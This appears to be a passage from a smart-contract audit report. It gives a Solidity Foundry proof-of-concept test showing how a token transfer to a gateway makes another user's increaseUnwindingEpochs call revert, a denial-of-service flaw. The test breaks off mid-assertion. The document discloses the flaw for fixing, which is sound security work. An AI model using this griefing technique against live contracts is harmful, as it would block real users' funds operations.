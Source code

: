 ### Proof of Concept

#### Scenario:
- Alice creates a position.
- Bob creates a position.
- Bob sends his position to the gateway.
- Alice attempts to `increaseUnwindingEpochs` and reverts.

The revert is due to the function attempting to `burnFrom` the gateway both her position and Bob's transferred tokens. 

Below is a modified version of `testIncreaseUnwindingEpochs` which now reverts with the addition of Bob's transfer.

```solidity
function testDosIncreaseUnwindingEpochs() public {
    _createPosition(alice, 1000, 10);
    _createPosition(bob, 1000, 10);
    LockedPositionToken liusd = LockedPositionToken(lockingController.shareToken(10));
    
    // Mirrors `testIncreaseUnwindingEpochs` test with the only difference being Bob transfers to the gateway.
    vm.prank(bob);
    liusd.transfer(address(gateway), 1000);
    
    assertEq(
        lockingController.balanceOf(alice),
        1000,
        "Error: Alice's balance after creating first position is not correct"
    );
    assertEq(
        lockingController.rewardWeight(alice),
        1200,
        "Error: Alice's reward weight after creating first position is not correct"
    );
    assertEq(
        lockingController.shares(alice, 10),
        1000,
        "Error: Alice's share after creating first position is not correct"
    );
    assertEq(
        lockingController.shares(alice, 12),
        0,
        "Error: Alice's share after increasing unwinding epochs is not correct"
    );

    vm.startPrank(alice);
    {
        MockERC20(lockingController.shareToken(10)).approve(address(gateway), 1000);
        gateway.increaseUnwindingEpochs(10, 12);
    }
    vm.stopPrank();

    assertEq(
        lockingController.balanceOf(alice),
        1000,
        "Error: Alice's balance after increasing unwinding epochs is not correct"
    ); // unchanged
    assertEq(
        lockingController.rewardWeight(alice),
        1240,
        "Error: Alice's reward weight after increasing unwinding epochs is not correct"
    ); // +40
    assertEq(
```